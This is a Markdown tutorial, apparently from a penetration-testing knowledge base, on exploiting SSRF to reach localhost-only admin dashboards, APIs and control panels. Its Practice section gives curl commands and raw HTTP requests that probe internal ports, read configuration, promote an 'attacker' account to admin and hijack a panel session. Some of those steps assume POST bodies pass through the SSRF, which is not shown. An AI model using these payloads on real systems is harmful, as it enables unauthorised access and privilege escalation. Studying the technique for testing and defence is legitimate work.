 ```yaml
---
title: Local Web Interface Exploitation Techniques
description: Learn how to exploit SSRF vulnerabilities to access and misuse local
  web interfaces securely hosted on target servers.
keywords:
- Local Web Interface
- SSRF exploitation
- localhost services
- admin dashboard
- internal APIs
- network security
- web exploitation
---
```


# Local Web Interface Exploitation

## Context

The goal of this article is to demonstrate how attackers can exploit Server-Side Request Forgery (SSRF) vulnerabilities to access and abuse local web interfaces, such as admin dashboards and local APIs, on the target server. This guide assumes the reader has an understanding of localhost networking, web service architecture, and SSRF techniques.

## Theory

### Local Web Interfaces and SSRF

Local web interfaces are HTTP services bound to the localhost or 127.0.0.1 addresses and are often intended to be inaccessible from external networks. SSRF vulnerabilities allow attackers to make requests from a vulnerable server to these otherwise hidden internal services, effectively proxying the attacker's requests through the server. Many admin dashboards and APIs that are only accessible via localhost lack significant authentication mechanisms, making them prime targets for SSRF exploitation.

### Attack Surface: Localhost-Only Services

Localhost-only services are those listening on localhost:PORT or 127.0.0.1:PORT. Common examples include admin dashboards, monitoring panels, and internal APIs. By crafting SSRF payloads, attackers can issue requests to these local web interfaces, bypassing network restrictions and exploiting the server's access to locally bound services.

### Abuse Scenarios for Local Web Interfaces

Attackers can access admin dashboards to change configuration settings or escalate privileges. They might also interact with local APIs to perform sensitive actions or exfiltrate data. Additionally, hijacking internal control panels can aid lateral movement within the network and persistence in the compromised environment.

## Practice

### Enumerate Accessible Local Web Interfaces via SSRF

1. Use the following command to send an SSRF payload that probes for an admin dashboard on `localhost:8080`:
   
   ```bash
   curl -X POST http://vulnerable-app/ssrf?url=http://127.0.0.1:8080/admin
   ```

2. Probe for a local API endpoint on port `5000` using:
   
   ```bash
   curl -X POST http://vulnerable-app/ssrf?url=http://localhost:5000/api/status
   ```

   These actions will help identify which local web interfaces are accessible using SSRF.

### Exploit Local Admin Dashboard via SSRF

1. Craft an SSRF payload to access the admin configuration page:

   ```http
   GET /admin/config HTTP/1.1
   Host: 127.0.0.1:8080
   ```

2. Retrieve the admin configuration by sending the payload:

   ```bash
   curl -X POST http://vulnerable-app/ssrf --data-urlencode "url=http://127.0.0.1:8080/admin/config"
   ```

   Successfully executing this will allow access to sensitive configurations or credentials from the local admin dashboard.

### Abuse Local API for Privilege Escalation

1. Prepare an SSRF payload to escalate privileges via a local API:

   ```http
   POST /api/user/promote HTTP/1.1
   Host: localhost:5000
   Content-Type: application/json

   {"user":"attacker","role":"admin"}
   ```

2. Send the SSRF request to promote the attacker account:

   ```bash
   curl -X POST http://vulnerable-app/ssrf --data-urlencode "url=http://localhost:5000/api/user/promote" --data '{"user":"attacker","role":"admin"}'
   ```

   This action will enable the attacker to gain elevated privileges by abusing local API endpoints.

### Hijack Internal Control Panel via SSRF

1. Construct an SSRF payload to log into an internal control panel:

   ```http
   POST /panel/session HTTP/1.1
   Host: 127.0.0.1:9090
   Content-Type: application/x-www-form-urlencoded

   user=attacker&action=login
   ```

2. Execute the SSRF request to hijack the control panel session:

   ```bash
   curl -X POST http://vulnerable-app/ssrf --data-urlencode "url=http://127.0.0.1:9090/panel/session" --data 'user=attacker&action=login'
   ```

   By successfully performing this action, attackers can gain access to internal control panels, facilitating further exploitation.

## Tools

- **curl**
- **Burp Suite** 

These tools are essential for crafting and sending HTTP requests to exploit SSRF vulnerabilities effectively.